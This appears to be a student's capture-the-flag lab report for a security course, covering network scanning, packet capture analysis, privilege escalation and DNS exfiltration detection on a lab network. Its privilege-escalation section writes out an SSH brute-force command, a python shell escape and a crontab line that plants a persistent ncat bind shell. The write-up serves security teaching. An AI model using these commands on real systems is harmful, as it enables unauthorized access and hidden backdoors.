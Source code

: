 # BSY Report

This is report for 4 tasks from BSY by Matous Dzivjak.

## 2. Finding Computers to Attack and Services.

In this task we had to scan local network for open ports and find a machine we could attack.
First device with open ports was router on 192.168.1.0 witch had admin web server.
We tried bruteforcing the password and username on the router but that didn't seem to work.
Finally we decided to try and scan elsewhere as the router probably wasn't meant to be targeted.

### Solution

After few runs finally this nmap command brought up some servers (excluding router) with non-22 ports open:

```
sudo nmap -sS -n -v 192.168.1.0/24 -p- -T5 --min-parallelism 200 --max-rtt-timeout 5 --max-retries 1 --max-scan-delay 0 --min-rate 1000
```

I noticed that if run without verbose flag nmap doesn't report on some ports which took a few hours from me.
The server with non-22 ports was 192.168.1.167. Some of the open ports were 22911, 8752, 13079, 26711.
Most of the returnes ASCII art, one of them also contained token `EuphoricMushroomsFeedAnywhere`, this token was then
requested by service on port 26711. We connected to this service using ncat:

```
ncat 192.168.1.167 26711
```

And upon being prompted for the token all that was needed was send this token as request. Response was the flag.

## 3. Detecting intruders using tcpdump and wireshark

This task was meant for us to strengten our skills with wireshark and tcpdump.

### Solution

We captured traffic using tcpdump for over 3 hours using:

```
nohup tcpdump -n -s0 -i eth0 -A port ! 22 &
```

Then we twiggled around with filtering to find out something interesting.
First we filtered out ssh traffic using

```
not ssh
```

Then we filtered the packets to keep only those for which we are the destination:

```
not ssh and ip.dst == 192.168.1.171
```

We saw a lot of port scans and other stuff happening so we filtered it out
to see only non-empty packets

```
not ssh and ip.dst == 192.168.1.171 and (udp.length > 0 or tcp.len > 0)
```

we also removed ICMP packets

```
not ssh and ip.dst == 192.168.1.171 and (udp.length > 0 or tcp.len > 0) and not icmp
```

This left us with 186 packets, after a quick visual scan we saw that some contain wierd
messages with "BEEP"s.

Finally, the whole BEEPING stream contained message encoded in morse code, e.g.
short BEEP standing for '.' and long BEEEPS standing for '-'. Decoded morse code
message contained token that needed to be written to the flag server (`192.168.1.167`) in order to obtain
the flag.

## 6: Privilege Escalation and Persistence

The task is simple: Get SSH access to moriarty@192.168.1.193 and find flag.
We are given a hint: Despite being a criminal mastermind, 
this person loves reading superhero comic books….. nerd!

So first we tried to bruteforce the password for user moriarty using the list
of 1000 most common passwords (https://raw.githubusercontent.com/DavidWittman/wpxmlrpcbrute/master/wordlists/1000-most-common-passwords.txt)
and command:

```
sudo nmap -sS -sV -p 22 192.168.1.193 -v -n --script ssh-brute --script-args userdb=names.txt,passdb=1000-most-common-passwords.txt
```

This sadly failed and didn't find the correct password.
So we tried to guess what the password might be and on the first try we get in;
the password was 'batman'.

After getting in we see, that we have only 2 command available, python and ls.
Using python we are able to spawn a shell:

```
import os; print(os.system('/bin/bash'))
```

After that, we could roam freely all over the server.
First thing we did was to have some persistence we added following line to crontab:

```
(crontab -l ; echo "@reboot sleep 200 && ncat -l 9999 -k -c /bin/bash")|crontab 2> /dev/null
```

Which will upon reboot spawn a shell acessible on port 9999.

After that, we explore more of what we can do. After a few minutes we stumble upon
folder assignment07 under /home/user which contains script for the 7th assignment.
In file password_rotator.sh we find whole script for the assignment from which we draw following conclusions:

1. The passwords that the user rotates are: "superman" "ironman" "batman" "4a7#mgannn2LDD90T#1fX#0Yx%m!kxrMSmUXd60xKwdM0S6u"

2. The file with second token is: /var/tmp/tokens/second_token.txt and it's content
changes to following values: "Hysterical" "Spaghetti" "Floss" "Apparently"
which together give the token for second part of the assignment: HystericalSpaghettiFlossApparently
This token is also in the first comment in the script
```
#TOKEN:HystericalSpaghettiFlossApparently
```

3. The flag server for second part of the assignment is 192.168.1.167:9453

4. On password rotation all ssh session to moriarty are killed so we won't be able
to persist our ssh connection but we can definitely spawn a remote shell which shouldn't
get killed by the script.

After looking into the /vat/tmp/tokens folder we find token and flag server for first part
of the task as well. We try to submit both flags but flag for token for the part B doesn't
work which we later get to know was unintentional.


## 9. Data exfiltration techniques and their detection

In this goal our task is to detect and analyze exfiltration in pcap files.

### 9.a

Upon visually inspecting the pcap we see that there are some long DNS TXT record queries.
We filtered those out using 'dns.txt' filter. Then we went to the flag server mentioned
in task description on `192.168.1.167:8991`.

The server prompted as with several questions:

```
What was the domain used for exfiltration? (input the last part of the subdomain and the TLD, e.g. google.com)
```

The answer to this can be found by simply viewing the TXT queries. The domain ends
with securitytesting.online and that is the answer.

```
<Legolas> Which type of DNS record was used?
```

As mentioned before the queries were of TXT type.

```
<Legolas> How many queries were used for the exfiltration in total?
```

The number of filtered out txt queries from INIT to last packet is 61.

After that we received our flag:

```
<Legolas> Your friends are with you: BSY-FLAG-A09A-{...}
```

### 9.b

In this task we see pcap of dns data exfiltration again. This time we know which tool
was used [DNSExfiltrator](https://github.com/Arno0x/DNSExfiltrator) and we have the
information that password 'pass' was used.

We again filtered the packets using `dns.txt` and copied out both packets that were
used for exfiltration:

```
init.ORSXG5BOOR4HI7BR.base64.securitytesting.online: type TXT, class IN
```

and

```
Name: 0.EIu3wCinsPK_RDCVv5d-28e2TU-Ec1BHT83QblPN3mOo-L1-dXVkSPod7iTczcQ.tlULhh7p_QqO-k4FtUQ56nkbgIOkTNePAkkDmEWAggVL7hEcLJpKORiesVBGsol.AEJgjlMn2JczQo6KGqUAJ4GtnaXI3YZW7uEel8fq0kjjJvQfVhtbHHKyx9bEhJO.zxhc39atS4.securitytesting.online
```

We cloned the repository with DNSExfiltrator and modified the code a bit to decode our string with fix password
without the need to run the whole process. After extracting the result zip file
we get folder with one single file: test.txt with following content:

```
lalalala
passwords: jkgjhqgfwgefjh
```

We then proceed to the flag server again, this time running on `192.168.1.167:8992`
First question:

```
<Gimli> What is the name of the exfiltrated file?
```

we already know the answer, the extracted file is `test.txt`

```
<Gimli> What is the password inside the file?
```

Answer is in the file: `jkgjhqgfwgefjh`

Answering these two questions was enough to get the flag:

```
<Gimli> Never thought I'd die fighting side by side with an Elf: BSY-FLAG-A09B-{...}
```



